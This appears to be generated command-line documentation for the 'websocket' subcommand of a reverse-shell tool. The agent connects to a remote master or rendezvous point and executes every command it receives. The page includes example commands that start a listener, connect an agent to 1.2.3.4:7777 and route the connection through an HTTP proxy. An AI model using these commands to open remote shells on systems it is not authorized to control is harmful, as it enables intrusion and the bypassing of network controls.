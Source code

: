 ## reverse-shell-agent websocket

Agent that connects to a websocket endpoints and wait for commands

### Synopsis

Connect to a remote websocket and execute every command received. The remote host can be a `master` or a `rendezvous`.

```
reverse-shell-agent websocket [flags]
```

### Examples

```
# On the master (1.2.3.4)
$ reverse-shell-client listen --port 7777

# On the agent
$ reverse-shell-agent websocket --url http://1.2.3.4:7777

Once an agent connects, you will be able to write commands in *stdin* that will be directly executed on the agent. You can also connect to a rendezvous point instead of a master.

You can also connect to the outside using a proxy:
$ http_proxy=http://your-proxy:3128 https_proxy=http://your-proxy:3128 agent websocket -U http://1.2.3.4:7777

```

### Options

```
  -h, --help         help for websocket
      --url string   url of the remote websocket endpoint
```

### Options inherited from parent commands

```
  -v, --verbose int   Be verbose on log output
```

### SEE ALSO

* [reverse-shell-agent](reverse-shell-agent.md)	 - Agents listening for remote commands

